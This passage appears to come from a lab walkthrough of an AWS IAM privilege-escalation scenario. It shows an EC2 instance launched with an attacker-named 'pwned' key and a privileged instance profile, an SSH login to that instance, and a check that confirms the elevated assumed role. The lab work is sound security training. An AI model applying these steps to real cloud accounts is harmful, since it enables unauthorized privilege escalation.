 Result:
```json
{
    "Groups": [],
    "Instances": [
        {
            "ImageId": "ami-0a313d6098716f372",
            "InstanceId": "<instance-id>",
            "InstanceType": "t2.micro",
            "KeyName": "pwned",
            "PublicDnsName": "<public-dns-name>",
            "PublicIpAddress": "<public-ip-address>",
            "State": {
                "Code": 16,
                "Name": "running"
            },
            "IamInstanceProfile": {
                "Arn": "arn:aws:iam::###:instance-profile/cg-ec2-meek-instance-profile-iam_privesc_by_attachment_###"
            }
        }
    ]
}
```

### Shell to the instance
```shell
ssh -i pwned.pem ubuntu@<public-dns-name-or-public-ip-address>
```
This command will shell to the instance with user `ubuntu` and private key `pwned.pem`

Now, we are in the instance!!!

### See the role
To see the role, we need to install AWS CLI on this instance.

```shell
sudo apt update
```
This command will update the list of avaliable packages

```shell
sudo apt install awscli
```
This command will install AWS CLI on our instance

Now, we can use AWS CLI.

Let's check our role.
```shell
aws sts get-caller-identity
```

Result:
```json
{
    "Arn": "arn:aws:sts::###:assumed-role/cg-ec2-mighty-role-iam_privesc_by_attachment_###/<instance-id>"
}
```
